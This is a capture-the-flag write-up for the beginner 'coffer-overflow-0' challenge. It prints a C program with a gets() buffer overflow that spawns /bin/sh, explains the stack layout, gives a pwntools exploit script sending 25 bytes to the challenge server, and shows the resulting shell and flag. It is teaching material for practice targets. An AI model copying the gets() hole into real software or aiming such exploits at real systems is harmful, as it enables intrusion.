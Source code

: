 # coffer-overflow-0
Author: [UltimateHG](https://github.com/UltimateHG)
### Basics of the basics
So, how do we approach this question? We can take a look at the source provided (coffer-overflow-0.c):
```
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```
<br>
It looks like a standard buffer overflow question where the vulnerability here is gets(), which does not specify the amount of bytes it should accept. Since the variable we're writing to, `char name[16]` has a allocated buffer size of 16, we just need to overflow past that to start overwriting the variables we want, which in this case is `code`.
<br>
This is our target line:

```
if(code != 0) {
    system("/bin/sh");
  }
```
As long as we are able to overwrite `code`, it doesn't matter what we overwrite it with, it will redirect us to shell.
Since stack space is generally allocated in multiples of 16, and this function declares `16+8=24 < 32` bytes for the variables, we can assume 32 bytes would be allocated to the function. Hence we just need to overwrite into the last 8 bytes of the stack and we should overwrite `code`. The length of our exploit would be 32-8+1 = 25.<br>
Here is the final exploit:

```
#!/usr/bin/env python

from pwn import *
e = ELF("./coffer-overflow-0")
p = remote("2020.redpwnc.tf", 31199)

p.recvline()
p.recvline()
p.sendline("A"*25)
p.interactive()
```
This should redirect us to shell, and we with a simple `ls` we can see an entry `flag.txt`, so we simply do `cat flag.txt` to obtain the flag:

```
$ ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```
